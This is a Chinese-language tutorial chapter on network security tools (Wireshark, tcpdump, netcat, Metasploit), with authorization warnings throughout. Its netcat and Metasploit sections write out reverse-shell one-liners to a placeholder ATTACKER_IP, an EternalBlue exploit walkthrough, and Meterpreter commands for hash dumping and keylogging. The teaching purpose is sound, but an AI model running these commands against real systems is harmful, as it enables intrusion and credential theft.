


+++
title = "第74章：网络安全工具"
weight = 740
date = "2026-03-24T13:18:28+08:00"
type = "docs"
description = ""
isCJKLanguage = true
draft = false
+++


# 第七十四章：网络安全工具

## 74.1 Wireshark 抓包分析

### 什么是 Wireshark？

Wireshark 是最流行的网络协议分析器，让你能够"看见"网络上的数据传输。


```mermaid
graph LR
    A[网络流量] --> W[Wireshark]
    W --> B[解码]
    B --> C[协议分析]
    C --> D[问题排查]
```

### 安装 Wireshark

```bash
# Ubuntu / Debian：安装过程会弹出对话框，询问是否允许非 root 用户抓包
sudo apt install wireshark

# 当时选了"否"的话，可以事后重新配置
sudo dpkg-reconfigure wireshark-common

# RHEL 系（RHEL 8 之后统一用 dnf）
sudo dnf install wireshark

# 服务器上通常只需要命令行工具（提供 tshark、dumpcap）
sudo dnf install wireshark-cli
```

```bash
# 允许某个普通用户抓包（Debian 系会创建一个 wireshark 组）
sudo usermod -aG wireshark "$USER"
# 加完组必须重新登录（或者用 newgrp wireshark）才会生效
```

> **服务器上跑 Wireshark 图形界面通常不现实**（没有桌面环境），而且大流量下 GUI 解码很吃资源。**实际工作中是用 `tshark`（Wireshark 的命令行版）或 `tcpdump` 抓包，把 `.pcap` 文件拷回本机，再用 Wireshark 图形界面分析**——这是最省事的组合。
>
> 另外要意识到：**抓包是特权操作**，因为它能看到明文流量（HTTP、FTP、未加密的口令）。`.pcap` 文件本身就是敏感数据，别随手丢在共享目录里。

### 两种过滤器：捕获 vs 显示（最容易搞混的地方）

| | 捕获过滤器（Capture Filter） | 显示过滤器（Display Filter） |
|---|---|---|
| 何时生效 | **抓包之前**，决定哪些包被写进文件 | **抓包之后**，决定界面上显示哪些包 |
| 语法 | BPF（Berkeley Packet Filter），与 tcpdump 相同 | Wireshark 自己的语法 |
| 写法示例 | `tcp port 80` | `tcp.port == 80` |
| 写错了 | 直接报错，无法开始抓包 | 输入框变红，无法显示结果 |

> **原稿说"Wireshark 使用 BPF 语法"，这句话只对捕获过滤器成立。** 紧跟其后的那些 `ip.addr == ...`、`http.request.method == "GET"` 全是**显示过滤器**，语法和 BPF 完全不是一回事。
>
> 这个区别很实际：想"只抓 80 端口的包"，要在捕获过滤器里写 `tcp port 80`；想"在已经抓到的包里只看 80 端口"，要在显示过滤器里写 `tcp.port == 80`。

### 常用显示过滤器

```text
# HTTP 相关
http.request.method == "GET"
http.request.method == "POST"
http.response.code == 200
http.host == "example.com"

# TCP 相关
tcp.flags.syn == 1                # SYN 包
tcp.flags.ack == 1                # ACK 包
tcp.stream eq 5                   # 第 5 条 TCP 流
tcp.analysis.retransmission       # 只看重传包（判断网络质量）

# DNS 相关
dns.qry.name == "example.com"
dns.flags.response == 0           # 只看 DNS 查询

# 组合与排除
http or tls                       # 满足其一
ip.addr == 192.168.1.1 && tcp.port == 80
!arp                              # 排除 ARP
```

> 显示过滤器支持 `==`、`!=`、`contains`、`matches`（正则）等操作符。记不住语法也不用背——点输入框右侧的 "Expression" 按钮用界面拼，比查文档快。
### 协议分析

```bash
# 常见协议分析点

# HTTP
# - 请求方法：GET, POST, PUT, DELETE
# - 请求头：User-Agent, Cookie, Host
# - 请求体：POST 数据

# DNS
# - 查询类型：A, AAAA, MX, CNAME
# - 响应码：NOERROR, NXDOMAIN

# TLS/SSL
# - 加密握手过程
# - 证书信息
# - 加密算法

# SMB
# - 文件共享协议
# - Windows 常用

# FTP
# - 21 端口控制
# - 随机端口数据传输
```

### 流追踪

```bash
# 在 Wireshark 中
# 1. 右键点击数据包
# 2. 选择 "Follow" → "TCP Stream"
# 3. 查看完整会话

# 或使用 tshark（命令行版）
tshark -r capture.pcap -Y "http" -T fields -e http.request.uri
```

## 74.2 Tcpdump 命令行抓包

### 基本用法

```bash
# 安装
# 通常预装

# 基本抓包
sudo tcpdump -i eth0

# 指定网卡
sudo tcpdump -i any

# 保存到文件
sudo tcpdump -i eth0 -w capture.pcap

# 读取文件
tcpdump -r capture.pcap

# 显示内容
sudo tcpdump -i eth0 -n
```

### BPF 过滤器

```bash
# 主机过滤
tcpdump host 192.168.1.1
tcpdump src 192.168.1.1
tcpdump dst 192.168.1.1

# 端口过滤
tcpdump port 80
tcpdump src port 443

# 协议过滤
tcpdump tcp
tcpdump udp
tcpdump icmp

# 组合过滤
tcpdump tcp and port 80
tcpdump "tcp[13] & 2 != 0"     # SYN 包
tcpdump "tcp[13] & 16 != 0"     # ACK 包
```

### 高级选项

```bash
# 显示更多细节
sudo tcpdump -i eth0 -vv

# 不解析域名和端口名（输出干净、速度快）
sudo tcpdump -i eth0 -nn

# 同时显示十六进制和 ASCII 内容
sudo tcpdump -i eth0 -X

# 只显示 ASCII 内容（看 HTTP 报文很直观）
sudo tcpdump -i eth0 -A

# 抓到 100 个包就停
sudo tcpdump -i eth0 -c 100

# 显示链路层信息（MAC 地址、VLAN 标签）
sudo tcpdump -i eth0 -e

# 列出可用的网卡
sudo tcpdump -D
```

**"怎么让它抓够 N 秒就自动停？"** 这是最常见的问题，答案是借助系统的 `timeout` 命令，而不是 tcpdump 自己的参数：

```bash
# 抓 5 秒后自动结束
sudo timeout 5 tcpdump -i eth0 -w /tmp/cap.pcap

# 边抓边过滤显示（-l 行缓冲，配合管道时必需）
sudo timeout 10 tcpdump -i eth0 -nn -l | grep -i '10.0.0.5'
```

> **原稿写的 `tcpdump -G 5`"5 秒后停止"是错的。** `-G` 的真实含义是"**每 N 秒轮换一个新的输出文件**"，它必须配合 `-w` 使用（常与 `-C` 一起限制单文件大小），**并不会结束抓包进程**。要限时就用 `timeout`。
>
> 另外用 `-w` 写文件时，还可以用 `-s` 指定每个包最多抓多少字节（snaplen）。现代 tcpdump 的默认值已经够大，但如果你只关心包头，把它设小能大幅减小文件体积：
>
> ```bash
> sudo tcpdump -i eth0 -s 96 -w /tmp/headers.pcap    # 每个包只抓前 96 字节
> ```
### 常用抓包场景

```bash
# 1. 抓 HTTP 请求
sudo tcpdump -i eth0 -A 'tcp port 80'

# 2. 抓 DNS 查询
sudo tcpdump -i eth0 -n 'udp port 53'

# 3. 抓 SSH 连接
sudo tcpdump -i eth0 'tcp port 22'

# 4. 抓指定 IP
sudo tcpdump -i eth0 host 192.168.1.1

# 5. 抓 HTTP POST 数据
sudo tcpdump -i eth0 -A 'tcp[((tcp[12:1] & 0xf0) >> 2):4] = 0x504f5354'
```

## 74.3 Netcat 网络瑞士军刀

Netcat 被称为"网络瑞士军刀"，能做几乎任何网络操作。

### 基本用法

```bash
# 安装（Debian / Ubuntu 默认装的是 OpenBSD 版）
sudo apt install netcat-openbsd

# 基本语法
# nc [选项] 主机 端口
```

> **netcat 有两个常见实现，参数并不通用：**
>
> | 实现 | 特点 | 监听写法 |
> |------|------|----------|
> | OpenBSD netcat（`netcat-openbsd`，Ubuntu 默认） | 精简，去掉了 `-e`、`-c` 这类危险选项 | `nc -l 4444` |
> | GNU / traditional netcat（`netcat-traditional`） | 老而杂，带 `-e`、`-c` | `nc -l -p 4444` |
>
> 所以老教程里的 `nc -l -p 4444` 在 Ubuntu 上会直接报错，把 `-p` 去掉即可。下面的例子统一用 OpenBSD 写法，遇到只有 traditional 版才支持的选项会单独标注。

### 端口探测

```bash
# 探测单个端口（-z 不发数据，-v 输出结果）
nc -zv 192.168.1.1 80

# 探测多个端口
nc -zv 192.168.1.1 22 80 443

# 探测端口范围
nc -zv 192.168.1.1 20-25

# 带超时（-w 秒），避免一直卡着
nc -zvw3 192.168.1.1 80
```

> **`nc` 不是专业端口扫描器**：它逐端口串行连接，扫 1000 个端口可能要几分钟。真要扫描，用 `nmap`（见第 71 章）。
>
> 另外 **UDP 探测（`-u`）的结论不可靠**：UDP 无连接，"端口开放但服务不回应"和"被防火墙静默丢弃"在客户端看来完全一样。只能作为参考。

### 文件传输

```bash
# 接收端
nc -l 4444 > received_file.txt

# 发送端
nc 192.168.1.100 4444 < file_to_send.txt

# 传目录：接收端解包，发送端打包
# 接收端
nc -l 4444 | tar xzvf -
# 发送端
tar czf - mydir/ | nc 192.168.1.100 4444
```

> 这种传法是**明文传输、且没有任何完整性校验**的，只适合内网临时应急。正经场景用 `scp`、`rsync` 或 `sftp`——加密、可校验、支持断点续传。

### 拿到 Shell（仅限授权测试环境）

```bash
# 反向 shell：目标主动连回攻击机（不依赖 nc 的 -e，可移植性最好）
bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
```

```bash
# 攻击机上先监听
nc -lvnp 4444
```

```bash
# 想要加密通道，用 socat 更好（两端都要装 socat）
# 攻击机
socat file:`tty`,raw,echo=0 tcp-listen:4444
# 目标机
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:ATTACKER_IP:4444
```

> **原稿的 `nc -e /bin/bash ATTACKER_IP 4444` 在 Ubuntu 上跑不了**：`-e` 只有 netcat-traditional 才支持，OpenBSD 版早就把它移除了（正是为了防止被当作后门工具），执行时会报 `invalid option -- 'e'`。
>
> **而所谓"加密反向 shell"的那两行更是错的**：`openssl s_client -connect host:port` 只是建立一个 TLS 客户端连接，它本身不会执行任何命令；`/bin/bash 2>& | openssl s_client ... > /dev/null &` 的管道方向与重定向也都写错了，语法上就不成立。要加密通道，用上面的 socat，或者更省事地直接用 `ssh -R` 做反向隧道。

### 远程管理与小技巧

```bash
# 启动一个监听端口（测试连通性，或配合 -k 持续接受连接）
nc -l 8080
nc -lk 8080              # -k：处理完一个连接后继续监听

# 测试连通性（带超时）
nc -zvw3 192.168.1.1 80

# 抓取服务 banner（SMTP、FTP、SSH 等连接时会先发欢迎信息）
nc -w3 target.com 21

# 发一个一次性的 HTTP 请求
printf 'GET / HTTP/1.0\r\nHost: example.com\r\n\r\n' | nc -w5 example.com 80
```

> 需要端口转发时，别指望 nc：`-c` 只有 traditional 版支持，OpenBSD 版较新的版本用 `-L`。实际做转发，用 `socat`、`ssh -L` / `-R`，或者 `rinetd`，都比 nc 稳得多。
## 74.4 Metasploit 渗透框架

### 简介

Metasploit 是最流行的渗透测试框架，包含大量漏洞利用模块。


```mermaid
graph LR
    A[Metasploit] --> B[模块]
    B --> C[Exploit]
    B --> D[Auxiliary]
    B --> E[Payload]
    B --> F[Post]
```

### 基本使用

```bash
# 安装
# Kali Linux 预装

# 启动 msfconsole
msfconsole

# 常用命令
# search <关键词>   搜索模块
# use <模块>        选择模块
# show options      显示选项
# set <选项> <值>  设置参数
# exploit           执行
# run               执行（Auxiliary 模块）
```

### 模块类型

| 模块 | 说明 |
|------|------|
| Exploit | 漏洞利用模块 |
| Auxiliary | 辅助模块（扫描、钓鱼等） |
| Payload | 攻击载荷（获取 shell） |
| Encoder | 编码器（免杀） |
| NOP | 空指令滑块 |
| Post | 后渗透模块 |

### 漏洞利用示例

```bash
# 1. 搜索模块
search type:exploit name:smb

# 2. 使用模块
use exploit/windows/smb/ms17_010_eternalblue

# 3. 查看选项
show options

# 4. 设置参数
set RHOSTS 192.168.1.100
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.50
set LPORT 4444

# 5. 执行
exploit
```

### Meterpreter 常用命令

Meterpreter 是 Metasploit 的内存驻留型载荷，提供丰富的后渗透功能。

```bash
# 信息与权限
sysinfo              # 系统信息
getuid               # 当前用户身份
getsystem            # 尝试提权到 SYSTEM（Windows）
hashdump             # 导出本地密码哈希（需要管理员权限）

# 会话与进程
ps                   # 进程列表
migrate <PID>        # 把会话迁移到别的进程（更隐蔽也更稳定）
shell                # 开一个系统 shell
background           # 把当前会话放回后台，回到 msfconsole
sessions -l          # 列出所有会话
sessions -i 1        # 重新进入 1 号会话

# 文件与信息收集
upload local.txt /tmp/           # 上传
download /etc/passwd /tmp/       # 下载
screenshot                       # 截屏
keyscan_start / keyscan_stop     # 键盘记录的开始与停止

# 网络
portfwd add -l 8080 -p 80 -r 内网主机IP   # 把内网端口转发到本地
```

> **提示**：Metasploit 模块众多、更新频繁，`search` 的结果会随版本变化，**不要死记模块路径**，用 `search` 现查更可靠。遇到"模块加载失败"，通常是因为依赖缺失（Ruby 版本、PostgreSQL 未启动、需要先执行 `msfdb init`）。
>
> 所有这些操作**都只能在你自己拥有、或已获得书面授权的环境中进行**。对未授权系统做这些，在任何地区都是违法行为，而且很容易被日志、EDR 和流量分析抓住。

## 本章小结

本章我们学习了常用的网络安全工具：

| 工具 | 用途 | 主要场景 |
|------|------|----------|
| Wireshark / tshark | 协议分析与流量取证 | 抓包后离线分析（用显示过滤器） |
| Tcpdump | 命令行抓包 | 服务器上随时抓一段（用 BPF 过滤器） |
| Netcat | 网络瑞士军刀 | 端口连通性测试、内网临时传文件 |
| Metasploit | 渗透测试框架 | 授权范围内的漏洞验证 |

工具在流程中的位置：


```mermaid
graph LR
    A[信息收集] --> B[漏洞扫描]
    B --> C[漏洞验证与利用]
    C --> D[权限提升]
    D --> E[后渗透]
    F[Wireshark / Tcpdump] --> A
    H[Netcat] --> A
    I[Metasploit] --> C
```

---

> 💡 **温馨提示**：
> 本章的工具既是网络工程师和安全测试人员的必备技能，也是攻击者最常用的手段。**请只在你自己拥有、或已获得明确书面授权的环境中使用**——学习实验、内部安全评估、有授权书的渗透测试。未经授权扫描或侵入他人系统属于违法行为。
>
> 另外提醒一句：抓包文件（`.pcap`）里常常包含明文口令、Cookie、Token 等敏感信息，分析完记得妥善清理，不要随手留在服务器上。

下一章我们进入"性能优化"卷，从 CPU 优化开始。
